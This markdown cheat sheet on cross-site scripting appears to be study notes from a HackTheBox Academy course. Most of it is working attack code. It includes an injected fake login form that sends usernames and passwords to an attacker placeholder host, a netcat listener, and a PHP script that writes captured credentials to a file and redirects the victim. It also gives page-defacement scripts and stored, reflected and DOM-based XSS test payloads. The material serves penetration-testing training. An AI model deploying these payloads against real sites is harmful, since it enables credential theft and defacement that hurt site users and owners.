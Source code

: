 # Cross-Site Scripting (XSS)

## Discovery
### xsstrike.py
```bash
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```
### Manual
Manually test payloads against input fields
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
[PayloadBox](https://github.com/payloadbox/xss-payload-list)

### Code Review
Review the source code for the page and the JS in Developer Tools

## Phishing (Fake Login Form)
### Login form Injection
```html
<h3>Please login to continue</h3>
<form action=http://attackerip>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
Login form minified and inserted into document.write parameter
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Completed script example
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Start netcat to listen for a connection
```bash
sudo nc -lvnp 80
```
Example Response:
```bash
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```
Capture responses with php (Capture credentials to creds.txt)
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
Start the php listener
```bash
sudo php -s 0.0.0.0:80
```
### Cleanup
Remove unwanted fields with the using document.getElementByID().remove() function
Find the "id="x" in the form to be removed. (x = 'urlform' in the below example
```javascript
document.getElementById('urlform').remove();
```
## Defacing
### Changing the Background
```html
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>#Sets an image as background
```
### Change Page Title
```html
<script>document.title = 'HackTheBox Academy'</script>
```
### Change Page Text
```javascript
document.getElementById("todo").innerHTML = "New Text"
$("#todo").html('New Text'); #jquery
```
### Change Entire Site
```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```
```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

## Stored XSS (Persistent XSS)

### Testing
User input is shown on the page

Test Payloads

```html
<script>alert(window.origin)</script> # This will pop up a window shoing the source URL for the popup window(iframes)
<script>print()</script> # Will pop up the printer dialog
<plaintext> # Should render the rest of the page as plain text.
```
To verify the payload is stored on the back-end, refresh the page. If the alert comes back, it's stored/persistent

## Reflected XSS
Reflected - Gets Processed by the back-end server
DOM-based - Completely Processed on the client-side
Neither are persistent through a page refresh

### Reflected
Look for user input to be displayed as part of an error messages

Test Payloads

```html
<script>alert(window.origin)</script> # This will pop up a window shoing the source URL for the popup window(iframes)
<script>print()</script> # Will pop up the printer dialog
<plaintext> # Should render the rest of the page as plain text.
```
Payloads will NOT be rendered by the browser on execution

**Targeting**
Target users by sending them a GET-Request URL containing our payload

### DOM-Based
Completely Processed on the client side (JS used to change page source through the Document Object Model(DOM)
No HTTP requests made (Developer Toos/Network Tab)
Check the URL for the parameters
Page source does not change when refreshed (Parameter passed in the URL rather than added to the page source)
**Source**=JS object that takes user input (Can be any input parameter like a url parameter or an input field)
**Sink**=JS function that writes user input to a DOM object on the page. 

Common JS Functions that write to DOM objects:
```javascript
document.write()
DOM.innerHTML
DOM.outerHTML
```

Common jQuery library functions that write to DOM objects
```javascript
add()
after()
append()
```

Example:
```javascript
var pos = document.URL.indexOf("task=");#task paramter in URL
var task = document.URL.substring(pos + 5, document.URL.length);
```
```javascript
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);#innerHTML used to write to the screen (task)
```
Test Payloads
```html
<img src="" onerror=alert(window.origin)>
```

